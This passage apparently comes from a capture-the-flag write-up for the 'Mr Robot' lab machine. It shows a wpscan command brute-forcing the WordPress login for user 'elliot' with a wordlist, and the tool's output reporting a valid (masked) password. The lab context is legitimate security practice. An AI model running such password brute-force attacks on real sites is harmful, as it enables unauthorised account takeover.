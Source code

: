 <img src="/images/mrrobot/wplogin1.png" />

All that is left is to brute force the password. I use the tool [wpscan](https://github.com/wpscanteam/wpscan) for this.

```
wpscan -U elliot -P unique --url http://10.10.123.255 --password-attack wp-login

_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.6
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[+] URL: http://10.10.123.255/ [10.10.123.255]
[+] Started: Thu Sep  3 18:11:26 2020
--snip--
[!] Valid Combinations Found:
 | Username: elliot, Password: *********
 --snip--
```
